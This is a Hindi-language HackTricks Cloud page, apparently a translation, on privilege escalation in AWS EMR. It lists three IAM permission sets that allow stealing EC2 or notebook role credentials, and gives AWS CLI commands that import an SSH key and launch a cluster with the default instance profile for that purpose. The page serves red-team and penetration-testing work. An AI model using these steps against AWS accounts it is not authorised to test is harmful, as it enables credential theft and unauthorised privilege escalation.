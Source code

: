 # AWS - EMR विशेषाधिकार बढ़ाना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) वाले [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## EMR

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

इन अनुमतियों वाले एक हमलावर **नए EMR क्लस्टर चला सकता है जिसमें EC2 भूमिकाएँ जुड़ी होती हैं** और इसके क्रेडेंशियल्स चुरा सकता है।\
ध्यान दें कि इसे करने के लिए आपको **खाते में आयातित कुछ ssh निजी कुंजी को जानना** होगा या एक को आयात करना होगा, और **मास्टर नोड में पोर्ट 22 खोलने की क्षमता** होनी चाहिए (आप इसे `--ec2-attributes` के अंदर `EmrManagedMasterSecurityGroup` और/या `ServiceAccessSecurityGroup` के गुणों के साथ कर सकते हैं)।
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
नोट करें कि `--service-role` में **EMR रोल** निर्दिष्ट किया गया है और `InstanceProfile` के अंदर `--ec2-attributes` में **ec2 रोल** निर्दिष्ट किया गया है। हालांकि, यह तकनीक केवल EC2 रोल क्रेडेंशियल्स चुरा सकती है (जैसे कि आप SSH के माध्यम से कनेक्ट करेंगे) लेकिन EMR IAM रोल नहीं।

**संभावित प्रभाव:** निर्दिष्ट किए गए EC2 सेवा रोल की उन्नति।

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

इन अनुमतियों के साथ एक हमलावर **AWS कंसोल** पर जा सकता है, एक नोटबुक बना सकता है और उसे उपयोग करके IAM रोल चुरा सकता है।

{% hint style="danger" %}
मेरे परीक्षणों में, यदि आप नोटबुक इंस्टेंस में एक IAM रोल जोड़ते हैं, तो मैंने देखा कि मैं AWS द्वारा प्रबंधित क्रेडेंशियल्स चुरा सकता हूं और IAM रोल से संबंधित क्रेडेंशियल्स नहीं।
{% endhint %}

**संभावित प्रभाव:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile को AWS प्रबंधित रोल में उन्नति।

### `elasticmapreduce:OpenEditorInConsole`

केवल इस अनुमति के साथ एक हमलावर **Jupyter नोटबुक तक पहुंच सकेगा और उससे जुड़े IAM रोल** को चुरा सकेगा।\
नोटबुक का URL है `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
मेरे परीक्षणों में, यदि आप नोटबुक इंस्टेंस में एक IAM रोल जोड़ते हैं, तो मैंने देखा कि मैं AWS द्वारा प्रबंधित क्रेडेंशियल्स चुरा सकता हूं और IAM रोल से संबंधित क्रेडेंशियल्स नहीं।
{% endhint %}

**संभावित प्रभाव:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile को AWS प्रबंधित रोल में उन्नति।

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकिंग ट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
